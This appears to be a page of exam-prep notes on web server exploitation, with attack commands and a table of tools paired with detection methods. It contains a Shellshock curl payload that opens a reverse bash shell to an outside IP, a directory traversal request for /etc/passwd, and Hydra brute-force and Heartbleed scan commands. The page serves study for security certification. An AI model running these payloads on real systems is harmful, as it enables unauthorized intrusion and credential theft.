 ### Web Server Exploitation

```

# Shellshock Exploit

curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1" http://vulnerable-site.com/cgi-bin/test.cgi

  

# Heartbleed Test

nmap -p 443 --script=ssl-heartbleed 10.10.10.10

```

### Web Server Misconfigurations

```

# Directory Traversal

curl http://10.10.10.10/../../../../etc/passwd

  

# HTTP Methods Enumeration

nmap --script=http-methods 10.10.10.10

```

  

### Exam-Critical Reference Table

  

| Attack Type     | Tool   | Command Example                        | Detection Method        |

| --------------- | ------ | -------------------------------------- | ----------------------- |

| Banner Grabbing | Netcat | `nc -nv 10.10.10.10 80`                | Server header analysis  |

| FTP Brute Force | Hydra  | `hydra -L users.txt ftp://10.10.10.10` | Failed login monitoring |

| Shellshock      | cURL   | `curl -H "malicious-header"`           | CGI script auditing     |

| Heartbleed      | Nmap   | `nmap --script=ssl-heartbleed`         | OpenSSL patching        |

  

### Practical Exam Checklist
